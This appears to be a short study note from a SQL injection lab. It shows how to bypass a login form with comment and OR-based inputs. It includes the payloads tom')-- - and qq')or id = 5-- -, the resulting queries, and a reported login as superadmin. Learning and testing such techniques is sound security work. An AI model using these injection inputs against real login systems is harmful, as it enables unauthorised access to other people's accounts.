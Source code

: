 
we can use comments to comment out the rest of the query and avoid the logic of it 

typing: tom')-- - into the username will result in this -> 
<span style="color:rgb(255, 0, 0)">SELECT * FROM logins WHERE (username='tom')-- -' AND id > 1) AND password = '202cb962ac59075b964b07152d234b70';</span>

this will result the part after the username beeing commented out

-----------

We can also use filtering queries to log in as a certain user with a specific id value

<span style="color:rgb(255, 0, 0)">SELECT * FROM logins WHERE (username='qq')or id = 5-- -' AND id > 1) AND password = 'd41d8cd98f00b204e9800998ecf8427e';</span>

Login successful as user: superadmin

here we used a invalid username but due to the logic of or it used the id of 5 to select the user and logged us in as the superadmin